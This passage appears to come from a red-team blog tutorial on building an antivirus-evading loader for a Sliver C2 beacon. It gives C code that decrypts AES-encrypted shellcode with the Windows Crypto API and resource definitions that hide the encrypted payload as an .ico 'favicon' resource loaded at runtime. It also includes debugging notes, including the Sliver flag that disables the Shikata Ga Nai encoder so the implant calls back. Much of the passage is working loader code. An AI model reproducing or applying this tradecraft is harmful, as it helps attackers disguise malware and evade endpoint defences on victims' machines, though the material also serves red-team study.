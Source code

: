Then at run time, we decrypt it using the native Windows Crypto API functions:

```
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }

        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }

        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);

        return 0;
}
```
We have all the pieces ready for encrypting and decrypting but how do we tell our app to compile with this as a resource? We will need two additional files for this. ```resources.h``` will hold a simple declaration ```#define FAVICON_ICO 100``` and ```resources.rc``` will hold the following:

```
#include "resources.h"
FAVICON_ICO RCDATA resource.ico
```

Retrieving our encrypted payload from the resources section can be done with the below:

```
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
resHandle = LoadResource(NULL, res);
payload = (char *) LockResource(resHandle);
payload_len = SizeofResource(NULL, res);
```

Something like [this can be used to then compile the code from the CLI.](https://gist.github.com/SolomonSklash/e267247e0006ebce999ea2c8a347bbb1) Or you can just use VisualStudios GUI.

Putting this altogether, to generate our Sliver payload we need to start a listener and output a beacon to a shellcode format. Feed this through the script and output it encrypted to another ico resource file, which we'll then include in the resources section of our implant. The process of doing this turned out to be much more complicated than I anticipated. Over the course of building this, I removed the IV declaration because I thought the AES library documentation said that if you don't supply one, it will auto generate one for you. All fine and good in my mind. That was until I went to decrypt at run time and for some reason the first block of bytes would be decrypted incorrectly. The issue turned out to be that I was mistaken and by not supplying an IV at encryption time, when it came to decrypt, the CBC cipher couldn't do the first block. But this also highlights the issue with CBC. Other ciphers will derive the IV for subsequent blocks from the first blocks decryption, but with CBC only the first block gets XOR'd with the IV and that's it. Once past this, the shellcode decoded properly in memory but I still wasn't seeing a connection back. The final issue here turned out to be that the Shikata Ga Nai encoder needed to be disabled at implant generation time with the flag ```--disable-sgn``` in Sliver.
